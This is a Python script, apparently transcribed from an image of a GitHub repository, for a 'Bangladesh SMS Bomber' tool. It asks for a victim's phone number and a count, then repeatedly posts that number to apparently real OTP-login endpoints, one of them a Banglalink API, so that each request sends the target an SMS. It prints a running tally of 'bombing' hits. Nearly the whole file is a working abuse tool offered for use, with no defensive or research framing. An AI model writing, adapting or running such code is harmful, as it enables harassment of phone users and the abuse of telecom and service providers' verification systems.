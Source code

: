 
import os
import requests
import time
from requests.structures import CaseInsensitiveDict

#CVALUE
blue= '\33[94m'
lightblue = '\033[94m'
red = '\033[91m'
white = '\33[97m'
yellow = '\33[93m'
green = '\033[1;32m'
cyan  = "\033[96m"
end = '\033[0m'
line=yellow+"======================================================================================================================"
space=" "
logo=red+str("""
⠀⠀⢀⢀⡀⢀⣠⣄⣦⣶⣶⣿⣿⣿⣿⣿⣿⣿⣶⡀
⠀⣤⣿⣾⣷⣿⠿⠿⠿⠿⠿⠿⠿⠿⢿⣿⣿⣿⣿⣧⡀
⢸⣿⣿⡟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠙⣿⣿⣿⣿⣄
⢹⣿⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣿⣿⡿
⠈⢿⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣀⡀⠀⢻⣿⡇
⠀⢸⣿⠀⠀⠀⢻⣿⣿⣶⣀⣀⣠⣾⣿⣿⣟⡉⠃⢸⣿
⠀⠈⢿⠀⠀⠼⠒⠿⣟⠟⠃⠀⠙⠿⣿⣿⣻⠿⠃⢸⡇
⠀⠀⢈⠀⠀⠀⠀⢉⣡⣤⣶⣶⣶⣤⣀⡉⠁⠀⠀⢸
⠀⠀⠘⢶⣶⣶⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣶⡿
⠀⠀⠀⠘⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠁
⠀⠀⠀⠀⠸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣧
⠀⠀⠀⠀⠀⠹⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠏
⠀⠀⠀⠀⠀⠀⠙⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡟
⠀⠀⠀⠀⠀⠀⠀⠈⠻⢿⣿⣿⣿⣿⣿⣿⠟                                                      
""")

      
 #HEADER                
text=cyan+"\t\tTOOL BY : Swapon Vau"+green+"\n\n\t\t★★ Nahid Alam | Bangladesh SMS Bomber ★★   \n" 
notice=""     
def header():
	print(logo)
	print(text)
	print(line)
	print(notice)
#SELECT_MAIN
def opt():
	print(cyan+"\n==> Select Your Option From Below")
	print(yellow+"\n\n [1] Start Bangladesh SMS Bombing\n\n [2] Back to Tool")
	

#MAIN_TOOL
os.system('clear')
tt=1
header()	
opt()
while tt<2:
	opt2=str(input(blue+"\n\n [>] Enter the number of option : "+yellow))
	if opt2=="1":
		text=cyan+"\t\tTOOL BY : NAHID ALAM"+green+"\n\n\t\t★★ Nahid Alam | Bangladesh SMS Bomber ★★   \n" 
		os.system('clear')
		header()
		number=str(input(blue+"\n\n [>] Enter The Bangladesh Number : "+yellow))
		ammount=int(input(blue+"\n [>] Enter The Ammount : "+yellow))
		os.system('clear')
		notice=cyan+"\n\t   [•]  Bombing progress......\n\n"
		header()
		ammount2=1
		totalsent=0
		totalnotsent=0
		while ammount2<ammount+1:
			try:
				if "yy" in number or "yyy" in number:
					r=requests.post("https://assetliteapi.banglalink.net/api/v1/user/otp-login/request",data={"mobile":number})
						
				else:
					url=url = "https://0yzk2chfm3.execute-api.ap-southeast-1.amazonaws.com/prod/user/otp"
					headers=CaseInsensitiveDict()
					headers["Content-Type"]="application/json"
					datagp="""{\"mobile_number\":\"+88"""+number+"""\"}"""
					r=requests.post(url, headers=headers, data=datagp)
					
						
						
				if ammount2==1:
					print(cyan+"\n\t  ★★BOMBING-FIRE★★==>   "+green+"[✓] 1st SMS Sent.")
				elif ammount2==2:
					print(cyan+"\n\t  ★★BOMBING-FIRE★★==>   "+green+"[✓] 2nd SMS Sent.")
				elif ammount2==3:
					print(cyan+"\n\t  ★★BOMBING-FIRE★★==>   "+green+"[✓] 3rd SMS Sent.")
				else:
					print(cyan+"\n\t  ★★BOMBING-FIRE★★==>   "+green+"[✓] "+str(ammount2)+"th SMS Sent.")
				time.sleep(1)
				totalsent+=1
				ammount2+=1
			except:
				if ammount2==1:
					print(cyan+"\n\t  ★★Problem★★==>   "+red+"[×] 1st SMS Not Sent.")
				elif ammount2==2:
					print(cyan+"\n\t  ★★Problem★★==>   "+red+"[×] 2nd SMS Not Sent.")
				elif ammount2==3:
					print(cyan+"\n\t  ★★Problem★★==>   "+red+"[×] 3rd SMS Not Sent.")
				else:
					print(cyan+"\n\t  ★★Problem★★==>   "+red+"[×] "+str(ammount2)+"th SMS Not Sent.")
					time.sleep(10)
					ammount2+=1
									
								
		totalhit=ammount2-1
		totalnotsent=totalhit-totalsent
		print(cyan+"\n\n\t\t[•] Total Hits : "+yellow+str(totalhit))
		print(green+"\n\t\t[✓] Total Sent : "+yellow+str(totalsent))
		print(red+"\n\t\t[×] Total Not Sent : "+yellow+str(totalnotsent)+"\n")
		lastt=str(input(cyan+"\n\n\t\t  [✓] All Done!\n\t [•] Now Press Enter Key To Continue\n"))
		os.system('clear')
		notice=""
		text=green+"\n\n\t\t★★★Nahid Alam | SMS Tools★★★   \n" 
		header()
		opt()
	
			
	elif opt2=="2":
		os.system("python3 SwaponTbomb.py")
	else:
		text=cyan+"\t\tTOOL BY : Swapon Vau"+green+"\n\n\t\t★★ Nahid Alam | Bangladesh SMS Bomber ★★   \n" 
		notice=red+"\n\t\t[×] Wrong Value Entered"
		os.system('clear')
		header()
		opt()
		continue
